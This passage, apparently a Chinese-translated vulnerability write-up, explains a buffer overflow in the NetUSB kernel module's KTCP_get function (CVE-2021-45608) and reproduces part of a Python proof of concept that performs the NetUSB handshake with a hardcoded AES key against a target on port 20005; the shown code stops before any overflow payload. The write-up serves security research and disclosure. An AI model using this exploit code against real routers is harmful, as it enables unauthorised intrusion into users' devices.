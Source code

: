 ```
        return 0;
      }
      else {
        return 1;
      }
    } else {
      // ...
      return 0;
    }
  }
  else {
    // ...
    return 0;
  }
}
```  
  
KTCP_get基本上是 的包装器ks_recv，这基本上意味着攻击者可以强制函数返回而不读取全部BufferLen字节数。这意味着我可以强制分配一个小缓冲区并用我想要的尽可能多的数据溢出它。如果您有兴趣首先了解如何触发此代码路径，请检查zenith-poc.py中的握手工作原理，或者您也可以阅读CVE-2021-45608 |来自 @maxpl0it 的数百万最终用户路由器中的 NetUSB RCE 缺陷。以下代码可以触发上述漏洞：  
```
from Crypto.Cipher import AES
import socket
import struct
import argparse

le8 = lambda i: struct.pack('=B', i)
le32 = lambda i: struct.pack('<I', i)

netusb_port = 20005

def send_handshake(s, aes_ctx):
  # Version
  s.send(b'\x56\x04')
  # Send random data
  s.send(aes_ctx.encrypt(b'a' * 16))
  _ = s.recv(16)
  # Receive & send back the random numbers.
  challenge = s.recv(16)
  s.send(aes_ctx.encrypt(challenge))

def send_bus_name(s, name):
  length = len(name)
  assert length - 1 < 63
  s.send(le32(length))
  b = name
  if type(name) == str:
    b = bytes(name, 'ascii')
  s.send(b)

def create_connection(target, port, name):
  second_aes_k = bytes.fromhex('5c130b59d26242649ed488382d5eaecc')
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target, port))
  aes_ctx = AES.new(second_aes_k, AES.MODE_ECB)
  send_handshake(s, aes_ctx)
  send_bus_name(s, name)
  return s, aes_ctx

def main():
  parser = argparse.ArgumentParser('Zenith PoC2')
  parser.add_argument('--target', required = True)
  args = parser.parse_args()
  s, _ = create_connection(args.target, netusb_port, 'PoC2')
```